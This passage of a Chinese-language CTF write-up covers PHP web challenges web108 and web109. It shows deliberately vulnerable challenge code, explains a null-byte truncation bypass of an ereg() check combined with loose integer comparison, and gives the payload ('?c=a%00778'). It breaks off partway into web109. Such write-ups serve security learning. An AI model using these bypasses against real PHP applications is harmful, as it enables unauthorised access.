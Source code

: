 ```
v3[]=1
v1="flag[]=1"
```



#### web108

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 23:53:55

*/


highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?>
```

题目给出的0x36d为16进制数，十进制为877，需要字母开头或结尾的话为877a，因为是==弱比较，可以等同于877，逆序后为a778,直接读取不行，需要加一个截断%00来绕过正则的判断。

payload

```
GET:?c=a%00778
```



#### web109

考点:php原生类利用

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-29 22:02:34

*/


highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];
```